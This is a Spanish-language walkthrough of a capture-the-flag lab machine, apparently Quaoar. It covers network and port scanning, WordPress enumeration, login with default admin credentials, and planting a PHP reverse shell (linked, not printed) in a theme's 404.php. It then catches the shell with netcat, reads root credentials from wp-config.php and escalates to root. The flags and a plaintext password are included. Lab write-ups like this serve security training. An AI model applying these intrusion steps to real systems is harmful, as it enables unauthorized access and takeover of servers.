




Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -sC 192.168.1.82
```

Enconramos los siguientes púertos con los servicios expuestos:
- Puertos y Servicios: 
	- **SSH:** 
		- Acceso remoto seguro a la máquina por consola (línea de comandos).
		- 22/tcp  open  ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
	- **DNS:** 
		- Resuelve nombres de dominio a direcciones IP.
		- 53/tcp  open  domain ISC BIND 9.8.1-P1
	- **HTTP:** 
		- Servidor web sin cifrado.
		- 80/tcp  open  http Apache httpd 2.2.22 ((Ubuntu))
	- **POP3:** 
		- Permite a los clientes **descargar correos** del servidor, No cifrado (mejor usar 995).
		- 110/tcp open  pop3 Dovecot pop3d
	- **NetBIOS:** 
		- Compartición de archivos e impresoras en redes Windows/Linux.
		- 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	- **IMAP:** 
		- Acceso a correos **manteniéndolos en el servidor**, No cifrado (mejor usar 993).
		- 143/tcp open  imap Dovecot imapd
	- **SMB:** 
		- Compartición de archivos moderna (Windows), Muy sensible si está expuesto a internet.
		- 445/tcp open  netbios-ssn Samba smbd 3.6.3 (workgroup: WORKGROUP)
	- **IMAPS:** 
		- IMAP cifrado, Recomendado para correo, Protege usuario y contraseña
		- 993/tcp open  ssl/imap Dovecot imapd
	- **POP3S:** 
		- POP3 cifrado, Alternativa segura a POP3, Evita que las credenciales viajen en claro
		- 995/tcp open  ssl/pop3 Dovecot pop3d

Entramos a la werb para ver que contiene: http://192.168.1.82/
- 
Pero no encontramos nada en el código por lo que se realiza una enumeración de directorios:
```
sudo dirsearch -u http://192.168.1.82/ 
```

Encontramos lo primero que se revisa "robots.txt", http://192.168.1.82/robots.txt y vemos que hace mención de que usa wordpress aunque eso tambien lo vimos en la enumeración de directorios y tambien Indica a los **bots** que no indexen la ruta `/Hackers`., pero realizamos un escaneo al wordpress.
```
sudo wpscan --enumerate u,ap  --url http://192.168.1.82/wordpress/
```

Al entrar al plugin de wordpress http://192.168.1.82/wordpress/wp-login.php podemos ingresar con las credenciales user:admin, password:admin:
- 

Como ya pudimos acceder al wordpress y verificamos que somos administradores ahora verificamos plugins oi temas que existan instalados en el sistema.
En apariencia y tomando el tema "twentyfourteen" editamos uno de los archivos que conytiene en la parte de templates en este caso el archivo 404.php:
- 
- donde le insertamos o modificamos el código php para generar un reverseshell:
	- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- tema:
	- http://192.168.1.82/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentyfourteen

Ejecutarel 404.php:
- http://192.168.1.82/wordpress/?m=201611
- http://192.168.1.82/wordpress/wp-content/themes/twentyfourteen/404.php

Una ves configurado la reverseshell con la ip de la maquina tacante y el puerto de escucha en este caso el puerto a usar es 443, ponemos a netcat en escucha:
```
sudo nc lvp 443 
```

Checamos el usuario y los grupos que pertenecemos:
```
id
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
whoami
```
www-data

En la ruta "/home/wpadmin/flag.txt" veremos la primera flag:
```
cat /home/wpadmin/flag.txt
```
FLAG: 2bafe61f03117ac66a73c3c514de796e

Revisando en la ruta "/var/www/wordpress" donde se puede ver las configuraciones de wordpress "/var/www/wordpress/wp-config.php", accedemos a la ruta y realizamos una vita del archivo con el comando cat:
```
cd /var/www/wordpress
```
```
cat /var/www/wordpress/wp-config.php
```
Vemos un user y password:
- user: root
- password: rootpassword!


Iniciamos la sesión:
```
www-data@Quaoar:/var/www/wordpress$ su
su
Password: rootpassword!
```

Vamos a la carpeta del root:
```
cd
```

```
pwd
```
/root

Ver la flag:
```
cat flag.txt
```
8e3f9ec016e3598c5eec11fd3d73f6fb
